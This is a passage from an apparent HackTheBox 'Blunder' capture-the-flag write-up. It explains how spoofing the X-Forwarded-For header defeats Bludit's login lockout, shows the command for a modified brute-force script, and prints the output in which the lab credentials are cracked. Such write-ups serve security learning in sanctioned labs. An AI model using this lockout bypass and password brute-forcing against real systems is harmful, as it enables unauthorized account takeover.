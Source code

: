 #### Bypassing The Bruteforce Mitigation
There is an existing script for bruteforce mitigation bypass. Can be found [here](https://rastating.github.io/bludit-brute-force-mitigation-bypass/). It's cool! Please, give it a read :D. (TL;DR - X-Forwarded-For header is being checked if is set and thus used for locking out. It can be spoofed thus the lockout count goes to the spoofed IP instead of our original IP).<br />
Let's try it!
<br />
```bash
python3 bruteforce.py users.txt wordlist.txt
```
<br />
**_Note: I modified the original code to accept a users list file and passwords list file and then submit the contents. If you want to check it out, you can go to insert link [here](https://github.com/Altelus1/Hacking_Adventures/blob/master/HackTheBox/Blunder/bruteforce.py)_**.
<br/>After a while, we got this
<br />
```bash
...
[*] Trying: fergus:resolution
[*] Trying: fergus:resolutions
[*] Trying: fergus:Richard
[*] Trying: fergus:Right
[*] Trying: fergus:Robots
[*] Trying: fergus:RolandDeschain

SUCCESS: Password found!
Use fergus:RolandDeschain to login.

```
<br />Let's check the credentials.<br />
![Bludit login](images/blunder/6.png)
<br />It worked!

## Bludit Vulnerability
